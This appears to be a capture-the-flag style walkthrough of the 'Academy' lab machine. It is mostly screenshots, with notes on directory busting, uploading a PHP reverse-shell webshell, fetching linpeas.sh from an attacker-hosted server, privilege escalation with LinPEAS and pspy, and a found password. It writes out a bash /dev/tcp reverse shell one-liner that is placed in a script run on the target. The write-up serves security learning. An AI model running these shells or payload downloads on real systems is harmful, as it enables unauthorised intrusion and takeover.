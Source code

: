 # Academy


	- Explore FTP directory
	- Directory Busting
	- PHP webshell upload
	- LINPEAS
  - Post a web server



![image](https://github.com/user-attachments/assets/8635d0fd-4504-4d7a-b7f9-9939b603d91e)


![image](https://github.com/user-attachments/assets/f118e1c0-0640-481b-b7fd-49744aff0187)


![image](https://github.com/user-attachments/assets/0e2959b3-0c83-4a01-a3b2-62bb85a103dd)



![image](https://github.com/user-attachments/assets/c5e17029-a74b-4c30-90e0-627c48542d32)



![image](https://github.com/user-attachments/assets/c87bec45-3422-4465-a6c1-93aa23688945)


![image](https://github.com/user-attachments/assets/ff023b06-7973-4b99-95ed-eae931517e53)


![image](https://github.com/user-attachments/assets/ae64a03f-8338-475e-9394-db8210ceba21)


![image](https://github.com/user-attachments/assets/aa387874-09a2-4aca-b058-ffa1090e881a)


![image](https://github.com/user-attachments/assets/8bd9dc31-9c58-4077-aaf8-eecf28354cd4)

![image](https://github.com/user-attachments/assets/394eb9ac-abaa-4c6b-ab86-8a31b3732f65)

FFUF

![image](https://github.com/user-attachments/assets/651daf5d-a03d-4762-bde0-6678094c5d25)

![image](https://github.com/user-attachments/assets/75e574b6-f4e9-42f1-9878-cac5bfe6de76)


![image](https://github.com/user-attachments/assets/5fece08c-1f02-4530-a597-ea9a58442bd2)


![image](https://github.com/user-attachments/assets/a479fedc-3bee-4935-a068-494c782020b7)


![image](https://github.com/user-attachments/assets/086b41d9-19ed-449e-83ea-8f7c2906a41d)


![image](https://github.com/user-attachments/assets/619310de-1b29-491e-a6dc-eb18cbaa1cb5)


https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![image](https://github.com/user-attachments/assets/b8e5a6db-9b9d-4c54-b701-5272c3ee58a2)


![image](https://github.com/user-attachments/assets/0861a6f2-a6d2-4d68-827d-1bf22d3b55e4)



![image](https://github.com/user-attachments/assets/eee41308-8675-47a9-a81a-c9b0ef57b070)



![image](https://github.com/user-attachments/assets/2a6be7d8-5e91-4ba9-8c5f-60f69750c2cf)


![image](https://github.com/user-attachments/assets/cf2f7753-3950-40e5-b8c7-920ae11771ea)

Privilege Escalation

We are not a root user and we need to perform privilege escalation. 

We are going to use LINPEAS tool to do some searching.

LINPEAS is a tool that hunts for privilege escalation.

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md

![image](https://github.com/user-attachments/assets/8e3130d9-d8d4-4c17-bc47-38eac8ab94e0)


Post a web server
This will host up a webserver in this folder , we're gonna go and grab this file on this machine. 


![image](https://github.com/user-attachments/assets/07c36ea9-89b5-49e1-890f-0c71120173bc)


Put a file on the machine that we want to grab, put in the tmp folder
![image](https://github.com/user-attachments/assets/80b715ff-0bca-4124-952d-72270a678f67)

![image](https://github.com/user-attachments/assets/39f38074-ed58-4bc6-9cde-9e16d4864490)


http://<attackerIP>/linpeas.sh

![image](https://github.com/user-attachments/assets/c9a92beb-971d-4dfc-aa30-f98798619fb0)


Listener:

![image](https://github.com/user-attachments/assets/5921e7d7-d908-4485-a7ff-2f679565218a)

We need to make it executable
chmod +x linpeas.sh
./linpeas.sh

![image](https://github.com/user-attachments/assets/926cbc65-9846-46f0-a0c6-0ff78bc76abf)


![image](https://github.com/user-attachments/assets/25ed333b-eeea-4205-85c5-134159a6e5f2)

My_V3ryS3cur3_P4ss

![image](https://github.com/user-attachments/assets/26bb2713-cfb4-43ac-95a3-535af607a597)

![image](https://github.com/user-attachments/assets/8a9e13b2-491a-40c2-b1b5-eb36dae44a16)

![image](https://github.com/user-attachments/assets/7349e09d-5074-4419-a4d1-92d5f92d04c7)

![image](https://github.com/user-attachments/assets/1c365686-8086-4029-9630-87da63ec04a5)


![image](https://github.com/user-attachments/assets/d4c7d063-7bda-464b-b518-5cd93f8a494d)


![image](https://github.com/user-attachments/assets/a5cf8ab8-d3e5-4bf7-bb22-4e7cfbe5afde)

![image](https://github.com/user-attachments/assets/0d3bcf8d-6a63-4ee5-80ed-0064d37d5842)


![image](https://github.com/user-attachments/assets/8c4aa7e1-b47a-469e-b27f-fb264dd3546e)


![image](https://github.com/user-attachments/assets/d454221f-c462-4b29-8ecb-b5a3825eceff)

![image](https://github.com/user-attachments/assets/129772fe-7454-4edb-9e48-1136256f092c)


pspy - monitor linux processes without root permissions

![image](https://github.com/user-attachments/assets/9674f183-228c-4591-b30f-22f71a4d38df)

![image](https://github.com/user-attachments/assets/0f9ad671-40ad-4f67-a32f-392d2e4f6339)


Put the pspy here in the tmp folder and run it

![image](https://github.com/user-attachments/assets/918386bc-d49e-496c-b298-be143616c27b)

![image](https://github.com/user-attachments/assets/c87e5de6-bea9-470a-9e07-69580ed3c6cd)


This will show us all the processes running on the machine


![image](https://github.com/user-attachments/assets/a8b361e3-cbc5-471b-8e6b-ca4915f5c743)

![image](https://github.com/user-attachments/assets/c861d002-e529-4086-936f-58c16633fc30)


Reverse shell oneliner

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

![image](https://github.com/user-attachments/assets/68ab4586-cc59-4bce-bb75-37e5c36f17cc)

![image](https://github.com/user-attachments/assets/f7c0ae4f-b48a-44dc-86af-5cc947359890)


![image](https://github.com/user-attachments/assets/239e4247-6ae2-4f09-b217-7c214d8cdf84)

We're going to put that in there and when it executes, it's going to perform reverse shell.  

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1   substitute attackerIP


![image](https://github.com/user-attachments/assets/3947d795-3540-45c5-a9fd-68dc046b92c2)


![image](https://github.com/user-attachments/assets/6fc026b3-b7ba-4fa8-b282-f509e9d320c9)















